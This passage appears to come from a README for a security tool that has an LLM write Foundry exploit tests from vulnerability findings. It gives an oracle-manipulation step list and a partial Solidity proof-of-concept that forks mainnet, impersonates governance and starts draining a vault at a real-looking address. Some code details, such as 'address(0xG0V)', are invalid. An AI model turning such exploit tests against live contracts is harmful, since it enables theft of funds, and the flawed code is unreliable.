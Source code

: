 **Oracle Manipulation:**
```
- Manipulate price feeds
- Flash loan integration
- Profit calculation
- Economic viability proof
```

---

## 🎨 Example Output

### Input (from Database):
```json
{
  "contract_name": "RocketVault",
  "severity": "critical",
  "description": "Governance can replace network contracts and drain vault",
  "line": 65,
  "type": "access_control"
}
```

### LLM-Generated Test:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.7.6;
pragma abicoder v2;

import "forge-std/Test.sol";
import "contract/RocketVault.sol";
import "contract/RocketStorage.sol";

contract RocketVaultExploitTest is Test {
    RocketVault vault;
    RocketStorage storage;
    address attacker = address(0x1337);
    address governance = address(0xG0V);
    
    function setUp() public {
        // Fork mainnet
        vm.createSelectFork("https://eth-mainnet.g.alchemy.com/v2/...");
        
        // Get contract instances
        vault = RocketVault(0x3bFC20f0B9aFcAcE800D73D2191166FF16540258);
        storage = RocketStorage(address(vault.rocketStorage()));
    }
    
    function testGovernanceCanDrainVault() public {
        // Get initial balance
        uint256 vaultBalance = address(vault).balance;
        uint256 attackerBalanceBefore = attacker.balance;
        
        // Step 1: Governance upgrades a network contract to attacker
        vm.startPrank(governance);
        storage.setAddress(
            keccak256(abi.encodePacked("contract.address", "rocketDeposit")),
            attacker
        );
        vm.stopPrank();
        
        // Step 2: Attacker drains vault
        vm.startPrank(attacker);
        vault.withdrawEther(vaultBalance);
```